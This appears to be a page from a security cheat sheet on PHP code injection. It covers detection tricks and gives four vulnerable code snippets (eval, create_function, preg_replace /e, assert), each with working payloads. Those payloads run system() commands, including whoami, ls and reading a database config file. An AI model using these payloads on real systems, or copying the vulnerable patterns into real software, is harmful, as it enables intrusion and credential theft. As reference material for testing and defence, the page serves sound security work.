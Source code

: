 #### 2.1. Detection

- `eval()` based code injection (user input interpreted/run as code)
- break syntax (`'` or `"`)
- comments injection (`/*0*/`)
- simple concatenation (`"."`)
- string concatenation (`"."in"."put"."` instead of `"input"`)
- time-based (`";sleep(0);//` vs `";sleep(5);//`)

#### 2.2. Example 1

Payloads:
```
$host/x.php?name=";sleep(2);//
$host/x.php?name=in"."put
$host/X.php?name=";system('cat ../sqli/db.php');//
```

Code:
```php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
```

#### 2.3. Example 2

Payload:
```
$host/x.php?order=id);}system('whoami');//
```

Code:
```php
$order = $_GET["order"];
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

#### 2.4. Example 3

Payload:
```
$host/x.php?pattern=/str/e&new=system('whoami')&base=str
```

Code (PHP<7):
```
echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
```

Request:
```
$host/x.php?pattern=/str/&new=hax&base=Hello%20str
```

#### 2.5. Example 4

Payload:
```
$host/x.php?name='.system('ls').'
```

Code (PHP<7):
```php
assert(trim("'".$_GET['name']."'"));
```
